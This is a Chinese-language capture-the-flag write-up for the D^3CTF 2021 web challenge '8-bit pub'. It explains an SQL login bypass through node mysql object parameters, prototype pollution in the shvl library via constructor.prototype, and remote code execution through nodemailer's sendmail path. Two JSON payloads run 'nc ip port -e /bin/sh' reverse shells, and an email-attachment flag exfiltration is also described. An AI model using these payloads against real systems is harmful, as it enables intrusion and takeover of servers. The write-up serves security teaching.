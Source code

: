 # 8-bit pub

> @ D^3CTF 2021 Web 
### 启动
如果需要，启动前请在`web/utils/mail.js`配置smtp服务器以供测试

start: ``docker-compose up -d``

### Write Up
#### 登入admin

通过简单的审计，发现要登入管理员端，需要用户名为admin
定位到数据库的操作代码
![](https://i.imgur.com/ZHOe0pv.png)


注意到这里的查询语句使用了占位符的写法，是没法进行直接的注入的
但是通过阅读node mysql库的文档，可以发现，当传入的变量为Object时，参数会被转化成``` `key` = value ```的格式拼入
那么就可以利用这点构造出`{"username":"admin", "password":{"password": true}}`的参数，这里只要传入对象的key值为表中的password列即可，那么sql语句变为```SELECT * FROM users WHERE username = 'admin' AND password = `password` = true```，也就是说构造出了一个万能密码

#### 原型链污染

登入admin后可以发邮件，通过审计发邮件处的代码，留意到这里使用了一个名为`shvl`的库进行赋值
![](https://i.imgur.com/3fZF5Hk.png)


前段时间这个库爆过原型链污染，在最新的版本中作者已经修复，但是看修复代码可以发现

![](https://i.imgur.com/OpSkDRe.png)


作者的修复仅仅是过滤了`__proto__`属性，我们用`constructor.prototype`仍可进行污染，可以直接污染到Object类

#### RCE
接下来对nodemailer的rce就有两种方法了

首先是较多队伍采用的，控制args变量的方法

通过阅读源码发现，nodemailer里有一处调用系统命令sendmail发送邮件的代码

![](https://i.imgur.com/cNkhgZQ.png)


其args参数依次来自

![](https://i.imgur.com/lawLmZE.png)

![](https://i.imgur.com/ScGah8r.png)


而这里，我们只要对Object.args进行污染，就可以控制到最终执行系统命令的参数

同时，题目中采用的是默认的smtp的transport，要让执行流程进入sendmail命令的逻辑，还需要污染Object.sendmail为true

![](https://i.imgur.com/C48pex1.png)


payload为：
```json
{
  "constructor.prototype.path": "/bin/sh",
  "constructor.prototype.args": [
    "-c",
    "nc ip port -e /bin/sh"
  ],
  "constructor.prototype.sendmail": true
}
```

这里有些队伍没有反弹shell，直接把`/readflag`的输出结果写到/tmp目录下，然后用发邮件附件的方式带出，形如
`{"to":"i@example.com","subject":"flag","attachments":[{"filename":"flag.txt","path":"/tmp/xxxx"}`
这样也比较有趣

另一种做法是安全研究员posix提出的，对环境变量进行污染，以实现rce的做法:
[https://blog.p6.is/Abusing-Environment-Variables/](https://blog.p6.is/Abusing-Environment-Variables/)

阅读child_process的代码：https://github.com/nodejs/node/blob/master/lib/child_process.js#L502 可以发现，如果我们同时污染`shell`和`env`两个变量，就可以通过一些系统命令的环境变量来rce
比如较为常用的NODE_DEBUG环境变量，pyload为：
```json
{
  "constructor.prototype.env": {
    "NODE_DEBUG": "require('child_process').execSync('nc ip port -e /bin/sh')//",
    "NODE_OPTIONS": "-r /proc/self/environ"
  },
  "constructor.prototype.sendmail": true,
  "constructor.prototype.shell": "/bin/node"
}
```
